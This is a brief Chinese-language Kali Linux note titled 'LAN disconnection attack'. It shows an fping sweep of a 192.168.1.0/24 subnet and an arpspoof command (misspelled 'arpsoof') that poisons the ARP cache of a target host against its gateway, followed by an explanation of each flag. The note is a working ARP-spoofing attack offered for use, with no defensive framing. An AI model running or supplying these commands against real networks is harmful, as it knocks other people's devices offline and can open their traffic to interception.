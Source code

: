 # tag: kali



# 局域网断网攻击

>欺骗

1. 查看联网设备数

   ```
   fping -asg 192.168.1.1/24
   ```

2. 攻击

   ```
   arpsoof -i eth0 -t 192.168.1.181 192.168.1.1
   ```

   arpspoof命令
   后面接上与网络有关的-i（interface）
   网卡eth0
   目标-t（target）
   目标IP：192.168.1.181
   目标主机网关192.168.1.1